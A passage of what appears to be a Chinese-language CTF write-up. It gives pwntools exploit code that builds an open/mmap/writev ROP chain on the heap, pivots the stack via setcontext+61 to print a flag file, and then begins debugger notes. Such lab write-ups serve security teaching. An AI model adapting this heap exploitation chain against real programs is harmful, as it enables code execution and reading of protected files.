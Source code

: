    ```py
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # # read(3,heap+0x1010,0x30) 
   # orw+=p64(pop_rdi_ret)+p64(3)
   # orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   # orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   # orw+=p64(read_addr)     
   
   orw += p64(pop_rdi_ret) + p64(heap_addr&0xffffffffffff0000)     # 映射的地址按0x10000对齐
   orw += p64(pop_rsi_ret) + p64(0x1000)
   orw += p64(pop_rdx_ret) + p64(1)
   orw += p64(pop_rcx_rbx_ret) + p64(1) + p64(0)
   orw += p64(pop_r8_ret) + p64(3)
   orw += p64(libc_base + libc.sym['mmap'])
   
   # # write(1,heap+0x1010,0x30)
   # orw+=p64(pop_rdi_ret)+p64(1)
   # orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   # orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   # orw+=p64(write_addr)
   # orw+=b"./flag\x00"
   
   orw += p64(pop_rdi_ret) + p64(1)
   orw += p64(pop_rsi_ret) + p64(flag+8)
   orw += p64(pop_rdx_ret) + p64(1)                # 表示一个内存区域
   orw += p64(libc_base + libc.sym['writev'])
   orw += b"./flag\x00\x00" + p64(heap_addr&0xffffffffffff0000) + p64(0x30)    #映射的地址 和 输出长度
   
   add(orw)     #17 unsorted bin
   p.sendlineafter(b'>','1')     #18 触发
   
   p.interactive()
   ```

   调试看一下这两个系统调用`mmap和writev`如何使用： 

   这里完成 rdi --> rdx 的转换，并顺利衔接到 setcontext + 61：

   ![image-20240909115143292](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091151660.png)

   setcontext + 61完成栈迁移到堆上：

   ![image-20240909115424260](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091154707.png)

   ![image-20240909115532460](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409091155797.png)

   mmap函数系统调用的参数如下：
